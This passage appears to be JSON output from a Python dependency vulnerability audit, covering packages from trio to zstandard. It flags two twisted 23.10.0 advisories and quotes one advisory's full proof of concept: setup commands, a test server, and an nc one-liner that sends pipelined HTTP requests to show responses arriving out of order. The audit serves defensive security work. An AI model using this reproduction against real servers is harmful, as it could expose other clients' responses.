 []}, {'name': 'trio', 'version': '0.30.0', 'vulns': []}, {'name': 'trio-websocket', 'version': '0.12.2', 'vulns': []}, {'name': 'truststore', 'version': '0.8.0', 'vulns': []}, {'name': 'twilio', 'version': '9.7.1', 'vulns': []}, {'name': 'twisted', 'version': '23.10.0', 'vulns': [{'id': 'PYSEC-2024-75', 'fix_versions': ['24.7.0rc1'], 'aliases': ['CVE-2024-41810', 'GHSA-cf56-g6w6-pqq2'], 'description': 'Twisted is an event-based framework for internet applications, supporting Python 3.6+. The `twisted.web.util.redirectTo` function contains an HTML injection vulnerability. If application code allows an attacker to control the redirect URL this vulnerability may result in Reflected Cross-Site Scripting (XSS) in the redirect response HTML body. This vulnerability is fixed in 24.7.0rc1.'}, {'id': 'GHSA-c8m8-j448-xjx7', 'fix_versions': ['24.7.0rc1'], 'aliases': ['CVE-2024-41671'], 'description': '### Summary  The HTTP 1.0 and 1.1 server provided by twisted.web could process pipelined HTTP requests out-of-order, possibly resulting in information disclosure.  ### PoC 0. Start a fresh Debian container: ```sh docker run --workdir /repro --rm -it debian:bookworm-slim ``` 1. Install twisted and its dependencies: ```sh apt -y update && apt -y install ncat git python3 python3-pip \\     && git clone --recurse-submodules https://github.com/twisted/twisted \\     && cd twisted \\     && pip3 install --break-system-packages . ``` 2. Run a twisted.web HTTP server that echos received requests\' methods. e.g., the following: ```python from twisted.web import server, resource from twisted.internet import reactor  class TheResource(resource.Resource):     isLeaf = True      def render_GET(self, request) -> bytes:         return b"GET"      def render_POST(self, request) -> bytes:         return b"POST"  site = server.Site(TheResource()) reactor.listenTCP(80, site) reactor.run() ``` 3. Send it a POST request with a chunked message body, pipelined with another POST request, wait a second, then send a GET request on the same connection: ```sh (printf \'POST / HTTP/1.1\\r\\nTransfer-Encoding: chunked\\r\\n\\r\\n0\\r\\n\\r\\nPOST / HTTP/1.1\\r\\nContent-Length: 0\\r\\n\\r\\n\'; sleep 1; printf \'GET / HTTP/1.1\\r\\n\\r\\n\'; sleep 1) | nc localhost 80 ``` 4. Observe that the responses arrive out of order: ``` HTTP/1.1 200 OK Server: TwistedWeb/24.3.0.post0 Date: Tue, 09 Jul 2024 06:19:41 GMT Content-Length: 5 Content-Type: text/html  POST HTTP/1.1 200 OK Server: TwistedWeb/24.3.0.post0 Date: Tue, 09 Jul 2024 06:19:42 GMT Content-Length: 4 Content-Type: text/html  GET HTTP/1.1 200 OK Server: TwistedWeb/24.3.0.post0 Date: Tue, 09 Jul 2024 06:19:42 GMT Content-Length: 5 Content-Type: text/html  POST ```  ### Impact See [GHSA-xc8x-vp79-p3wm](https://github.com/twisted/twisted/security/advisories/GHSA-xc8x-vp79-p3wm). Further, for instances of twisted.web HTTP servers deployed behind reverse proxies that implement connection pooling, it may be possible for remote attackers to receive responses intended for other clients of the twisted.web server.'}]}, {'name': 'typer', 'version': '0.16.1', 'vulns': []}, {'name': 'typing-extensions', 'version': '4.14.1', 'vulns': []}, {'name': 'typing-inspection', 'version': '0.4.1', 'vulns': []}, {'name': 'tzdata', 'version': '2025.2', 'vulns': []}, {'name': 'uc-micro-py', 'version': '1.0.1', 'vulns': []}, {'name': 'ujson', 'version': '5.10.0', 'vulns': []}, {'name': 'unicodedata2', 'version': '15.1.0', 'vulns': []}, {'name': 'unidecode', 'version': '1.3.8', 'vulns': []}, {'name': 'urllib3', 'version': '2.5.0', 'vulns': []}, {'name': 'uvicorn', 'version': '0.34.3', 'vulns': []}, {'name': 'vine', 'version': '5.1.0', 'vulns': []}, {'name': 'w3lib', 'version': '2.1.2', 'vulns': []}, {'name': 'wasabi', 'version': '1.1.3', 'vulns': []}, {'name': 'watchdog', 'version': '4.0.1', 'vulns': []}, {'name': 'wcag-contrast-ratio', 'version': '0.9', 'vulns': []}, {'name': 'wcwidth', 'version': '0.2.5', 'vulns': []}, {'name': 'weasel', 'version': '0.4.1', 'vulns': []}, {'name': 'webdriver-manager', 'version': '4.0.1', 'vulns': []}, {'name': 'webencodings', 'version': '0.5.1', 'vulns': []}, {'name': 'websocket-client', 'version': '1.8.0', 'vulns': []}, {'name': 'websockets', 'version': '12.0', 'vulns': []}, {'name': 'werkzeug', 'version': '3.1.3', 'vulns': []}, {'name': 'whatthepatch', 'version': '1.0.2', 'vulns': []}, {'name': 'wheel', 'version': '0.44.0', 'vulns': []}, {'name': 'widgetsnbextension', 'version': '3.6.6', 'vulns': []}, {'name': 'wrapt', 'version': '1.14.1', 'vulns': []}, {'name': 'wsproto', 'version': '1.2.0', 'vulns': []}, {'name': 'wtforms', 'version': '3.1.2', 'vulns': []}, {'name': 'wurlitzer', 'version': '3.0.2', 'vulns': []}, {'name': 'xarray', 'version': '2023.6.0', 'vulns': []}, {'name': 'xlwings', 'version': '0.32.1', 'vulns': []}, {'name': 'xyzservices', 'version': '2022.9.0', 'vulns': []}, {'name': 'yapf', 'version': '0.40.2', 'vulns': []}, {'name': 'yarl', 'version': '1.20.0', 'vulns': []}, {'name': 'zict', 'version': '3.0.0', 'vulns': []}, {'name': 'zipp', 'version': '3.17.0', 'vulns': []}, {'name': 'zope-interface', 'version': '5.4.0', 'vulns': []}, {'name': 'zstandard', 'version': '0.23.0', 'vulns': []}], 'fixes': []}
